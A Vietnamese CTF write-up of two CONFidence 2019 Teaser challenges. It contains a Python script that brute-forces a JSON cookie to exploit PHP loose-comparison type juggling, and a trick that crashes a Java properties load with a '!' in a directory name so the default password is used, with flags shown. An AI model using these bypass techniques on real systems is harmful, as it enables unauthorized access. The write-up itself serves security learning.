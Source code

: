 ```yaml
---
layout: post
title: CONFidence CTF 2019 Teaser
---
```

Giải do team p4 tổ chức, và tất nhiên là rất chất lượng. Nhưng là mới chỉ là Teaser thôi nên mình vẫn chưa ngập hành. 


![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con1.png "CONFidence CTF 2019")

# My admin panel (WEB)
[Link Challenge](https://gameserver.zajebistyc.tf/admin/)

Vào challenge mình thấy có ngay 2 file là login.php và login.php.bak (File Backup)

![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con2.png "/admin")

Nội dung file index.php.bak

```PHP
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Đọc hiểu code thì nó sẽ lấy giá trị của cookie `otadmin` check xem có dạng /^{"hash": [0-9A-Z\"]+}$/ hay là không
Nói dễ hiểu hơn thì cookie sẽ phải có dạng json {"hash" : "abcxyz123jj"} thì pass cái if 1 và if 2 if 3
để pass cái if thứ 4 thì cái giá trị của hash khi parse vào phải bằng với giá trị của `strtoupper(MD5($cfg_pass))`

Nếu không thể pass if 4 nó sẽ gợi ý cho mình bằng function sau 

```PHP

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }
```

Output:

```
0 0 0 64 64 64 0 64 0 0 64 0 0 0 64 64 64 64 0 0 0 64 0 0 64 0 64 0 64 64 0 0
```

Sau 1 hồi nghịch ngợm với cái đống này thì mình phát hiện ra 1 điều 
Nếu `ord(MD5($cfg_pass)[$i])` return từ 0 - 63 thì `ord(MD5($cfg_pass)[$i]) & 0xC0` = 0
Còn lại thì sẽ ra 64, điều đó đồng nghĩa với việc với 1 mỗi 1 con số từ 0-9 -> sẽ có 1 số 0 
và nếu là kí tự , thì sẽ có số 64 
So sánh với Output ở trên mình sẽ có 3 giá trị đầu tiên là number , và giá trị thứ 4 là character 

Tất nhiên là không thể brute được cái cfg_pass là gì, làm gì có cái mùa xuân đó, nếu brute được thì chắc mất cả năm 
Nên mình nhìn lại toàn bộ source code 1 lần nữa thì dòng này khiến cho mình chú ý 

```PHP
if ($session_data['hash'] != strtoupper(MD5($cfg_pass)))
```

Tại sao là `!=` chứ không phải là `!==` ? PHP Type Juggling ? Trùng hợp là 3 kí tự đầu tiên lại là number 
Chắc chắn là Type Juggling 

Solution: 

```python
import requests,json
def bruteCookie(i):
    url = "https://gameserver.zajebistyc.tf/admin/login.php"
    cookie = json.dumps({
        "hash" : (i)
    })
    cookie = {"otadmin" : cookie}
    print (cookie)
    answer = requests.get(url,cookies=cookie)
    if not "I CAN EVEN " in answer.text:

        print answer.text


for i in range(1,999):
    bruteCookie(i)
```

Flag : `p4{wtf_php_comparisons_how_do_they_work}`

# Sloik (MISC)

```
nc sloik.zajebistyc.tf 30001
```
Cho 2 file source, 1 file py, 1 file jar

Source Python:

```python
import os
import shutil
import signal
import subprocess
import sys

cwd = os.getcwd()
sandbox_name = ''


def cleanup(a, b):
    global sandbox_name
    if sandbox_name != '':
        sandbox_path = os.path.join(cwd, sandbox_name)
        if os.path.exists(sandbox_path):
            shutil.rmtree(sandbox_path)


def main():
    global sandbox_name
    signal.signal(signal.SIGALRM, cleanup)
    signal.alarm(10)

    print "username: ",
    sys.stdout.flush()
    sandbox_name = sys.stdin.readline().strip()
    sandbox_path = os.path.join(cwd, "sandbox", os.path.basename(sandbox_name))

    if os.path.exists(sandbox_path):
        print "Sorry, this name is taken"
        exit(1)
    else:
        os.mkdir(sandbox_path)
        java_app = 'sloik-1.0-SNAPSHOT-jar-with-dependencies.jar'
        shutil.copy(java_app, sandbox_path)
        flag_data = open('flag.txt','r').read()
        os.chdir(sandbox_path)
        subprocess.call(['java', '-Xmx8m', '-jar', java_app], stdin=sys.stdin, stdout=sys.stdout, stderr=sys.stderr, env={'flag': flag_data})
    os.chdir("../")
    cleanup("","")


main()
```

Source Java:

```java
/* 
 * Decompiled with CFR 0.140.
 */
package team.p4.sloik;

import java.io.InputStream;
import java.io.PrintStream;
import java.util.Properties;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) {      
        Properties properties = new Properties(); 
        try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
        Scanner sc = new Scanner(System.in);
        System.out.println("Password:");
        String password = sc.nextLine();
        if (password.equals(properties.get("password"))) {
            System.out.println("Welcome admin, flag is: " + System.getenv("flag")); 
        }
    }
}
```

À, bài này nó cho file jar để đọc Code file jar thì mình xài [CFR](https://www.benf.org/other/cfr/)

ok nhìn vào thì khi nc tới server của nó, nó sẽ bắt mình nhập 2 thông tin là username và password
Username khi mình nhập vào nó sẽ dùng để tạo 1 folder ở server của nó, rồi copy cái file jar trên vào rồi check tiếp 
Nhìn qua file java thì nếu password trùng với password trong file config của nó thì ra flag 

```java
try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
```

Nhưng mà cái ở đây mình để ý là phần catch Exception, thầy dạy Java của mình ở trường đã bảo là khi code có vô số trường hợp xảy ra mà người lập trình không thể dự tính trước được thì sẽ catch lại bằng cái Exception 

Sẽ không có vấn đề gì với cái code này nếu người ra đề không phải là team p4
Thử Google 1 chút với keyword `getResourceAsStream jar throw exception report bug java` thì tìm dc [Link](https://bugs.java.com/bugdatabase/view_bug.do?bug_id=4523159) này, do team p4 report luôn

Đại loại bug này là nếu mình thêm `!` vào sau cái tên directory thì khi `getResourceAsStream` parse vào sẽ quăng Exception 
Nếu bị quăng Exception thì sao? password sẽ được set thành `default` 
```
matuhn@SE130149:/mnt/d/ctf/tool/jd-gui$ nc sloik.zajebistyc.tf 30001
username: z3r0_n1ght!
Password:
default
Welcome admin, flag is: p4{fire_exclamation_mark_fire_exclamation_mark}
```



